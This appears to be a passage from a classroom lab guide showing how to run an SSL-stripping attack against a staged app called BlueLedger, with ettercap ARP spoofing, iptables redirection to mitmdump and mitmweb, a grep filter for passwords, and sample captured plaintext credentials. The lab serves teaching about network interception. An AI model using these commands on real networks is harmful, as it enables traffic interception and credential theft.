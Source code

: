 ## Step 2: Start BlueLedger Target

```bash
cd /path/to/BlueLedger
podman-compose up    # or docker-compose up
```

Verify it's accessible on HTTPS:
```bash
curl -k https://[YOUR_IP]:5001/health
```

## Step 3: SSL Stripping Attack - Method 1 (MITMdump - Most Reliable)

**Terminal 1 - Start MITMdump (No Scripts Required):**
```bash
# Show all decrypted traffic - perfect for classroom demonstration
sudo mitmdump --mode transparent --ssl-insecure --showhost --set flow_detail=3

# Alternative: Filter to show only credentials
# sudo mitmdump --mode transparent --ssl-insecure --showhost | grep -E "(POST|email|password|login)"
```

**Terminal 2 - ARP Spoof with Ettercap:**
```bash
# Replace [INTERFACE], [VICTIM_IP], and [GATEWAY_IP] with actual values
sudo ettercap -T -M arp:remote /[VICTIM_IP]// /[GATEWAY_IP]//
```

**Terminal 3 - Traffic Redirection:**
```bash
# Redirect HTTPS traffic to mitmdump (port 8080)
sudo iptables -t nat -A PREROUTING -i [INTERFACE] -p tcp --dport 443 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i [INTERFACE] -p tcp --dport 5001 -j REDIRECT --to-port 8080
```

**Terminal 4 - Run Victim Simulator:**
```bash
python3 victim_simulator.py
# Enter the attacker's IP address when prompted
```

**What You'll See:**
- Victim tries HTTPS → Gets 200 response (appears to work)
- MITMdump shows "TLS handshake failed" → SSL stripped successfully  
- Plaintext credentials appear: `{"email":"Employee@sinamoa.com","password":"Employee123!@#"}`

## Step 4: SSL Stripping Attack - Method 2 (MITMproxy Web UI)

For a visual interface that students can see in a browser:

**Terminal 1 - Start MITMproxy Web Interface:**
```bash
# Web interface - great for classroom demonstrations
sudo mitmweb --mode transparent --ssl-insecure --web-host 0.0.0.0
```
